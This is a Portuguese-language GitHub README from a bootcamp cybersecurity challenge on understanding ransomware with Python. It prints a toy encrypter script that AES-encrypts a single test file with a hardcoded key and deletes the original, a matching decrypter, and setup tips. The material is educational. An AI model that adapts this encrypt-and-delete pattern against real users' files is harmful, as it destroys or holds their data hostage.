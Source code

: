 # projeto-ransomware-dio

Código para o desafio de projeto __Entendendo um Ransomware na Prática com Python__ do Santander Bootcamp Cibersegurança

## Criando os códigos
1. criando arquivo .txt
`nano testeransomware.txt`

2. encrypter.py
```python
import os
import pyaes

## abrir o arquivo a ser criptografado
file_name = "testeransomware.txt"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## remover o arquivo
os.remove(file_name)

## chave para criptografar
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)

## criptografar o arquivo
crypto_data = aes.encrypt(file_data)

## salvar o arquivo criptografado
new_file = file_name + ".ransomwaretroll"
new_file = open(f'{new_file}','wb')
new_file.write(crypto_data)
new_file.close()
```   
   
3. decrypter.py
```python
import os
import pyaes

## abrir o arquivo criptografado
file_name = "testeransomware.txt.ransomwaretroll"
file = open(file_name, "rb")
file_data = file.read()
file.close()

## chave para descriptografar o arquivo
key = b"testeransomwares"
aes = pyaes.AESModeOfOperationCTR(key)
decrypt_data = aes.decrypt(file_data)

## remover o arquivo criptografado
os.remove(file_name)

## criar o arquivo descriptografado
new_file = "testeransomware.txt"
new_file = open(f'{new_file}', "wb")
new_file.write(decrypt_data)
new_file.close()
```
### Dicas

Olá, Pessoal!!
Abaixo segue a dica para quem esá tendo dificulades em realizar o desafio "Entendendo um Ransomware na Prática com Python"

Para quem está executando o encrypter.py e está dando erro na Liha 2, conforme abaixo:

```python
line2, in <module> import pyaes

ModuleNotFoundError: No mudule named 'pyaes'
```
![image](https://github.com/joaopalima/projeto-ransomware-dio/assets/31939741/d8dbc958-2311-4401-b5d5-b28df7a98019)


Deve adicionar a biblioteca pyaes do Python confome abaixo

```python 
pip install pyaes
```
 ![image](https://github.com/joaopalima/projeto-ransomware-dio/assets/31939741/174749f9-43ab-4012-9fd8-b6200378b1d1)


#### Arquivo encriptado
 ![image](https://github.com/joaopalima/projeto-ransomware-dio/assets/31939741/7e936ce8-cdf9-478a-b295-95e5921e0c6e)



#### Arquivo descriptografado
![image](https://github.com/joaopalima/projeto-ransomware-dio/assets/31939741/14c7ed12-6e78-4c70-860a-bfd169fe424f)


